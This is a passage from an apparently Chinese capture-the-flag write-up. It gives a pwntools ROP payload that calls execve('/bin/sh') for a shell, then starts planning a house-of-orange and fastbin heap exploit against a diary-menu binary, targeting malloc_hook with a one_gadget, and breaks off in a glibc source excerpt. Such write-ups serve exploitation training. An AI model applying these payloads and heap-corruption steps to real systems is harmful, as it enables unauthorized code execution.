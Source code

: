 ```python
# 在addr处写字符串
payload = b'\x00'*464 + p64(rax) + p64(0x0) + p64(rdi) + p64(0) + p64(0)*5 + p64(rsi) + p64(addr) + p64(rdx) + p64(0x30) + p64(syscall)
# 将addr处的字符串作为参数执行sys-execv
payload+= p64(rax) + p64(0x3b) + p64(rdi) + p64(addr) + p64(0)*5 + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)

p.sendlineafter(b'Input your magic message :',payload)

p.recvuntil(b'Your magic message :')
p.sendline(b'/bin/sh\x00')

p.interactive()

```

## orange_cat_diary
### 分析
house of orange + fastbin attack

一道堆菜单题，但是限制了show和delete的次数
每次add操作后申请的堆内存无编号，都是针对ptr的操作
edit函数内可以多写8个字节，可以改写下一个chunk的size

### 思路
1. 通过edit溢出修改top_chunk的size，然后通过申请较大的chunk将原top chunk置入unsorted bin
2. 通过show泄露unsorted bin的bk指针，这个指针会指向main_arena结构体内部的一个成员，通过main_arena与libc的偏移泄露libc基址
3. 通过伪造chunk进行fastbin attack将堆分配到malloc_hook位置，写上one_gadget
4. 再次调用malloc即可获取shell

#### 修改top chunk的size
关于修改top chunk的size，需要修改后的top chunk的满足以下几个条件
1. 伪造的 size 必须要对齐到内存页
2. size 要大于 MINSIZE(0x10)
3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
4. size 的 prev inuse 位必须为 1

对齐到内存页，即size(no_flag_bit)大小需要为2* SIZE_SZ的整数倍
所以我们修改top chunk的size为0xf91(0b1111 1001 0001)
0xf91最后一位为PRE_INUSE，去掉flag_bit最后4位为零（即满足对齐到内存页），并且大于0x10且小于我们要申请的0x1000

所以可以修改为0xf91

#### 计算main_arena与libc基址的偏移
关于如何计算main_arena与libc的偏移，main_arena是一个全局变量，这里有两种思路可以得知main_arena在libc中的偏移
1. 利用malloc_trim函数，这个函数会访问main_arena，可以通过这个函数在ida中找到偏移
```c
int
__malloc_trim (size_t s)
{
  int result = 0;

  if (__malloc_initialized < 0)
    ptmalloc_init ();

  mstate ar_ptr = &main_arena;//<=here!
  do
    {
      __libc_lock_lock (ar_ptr->mutex);
      result |= mtrim (ar_ptr, s);
      __libc_lock_unlock (ar_ptr->mutex);

      ar_ptr = ar_ptr->next;
```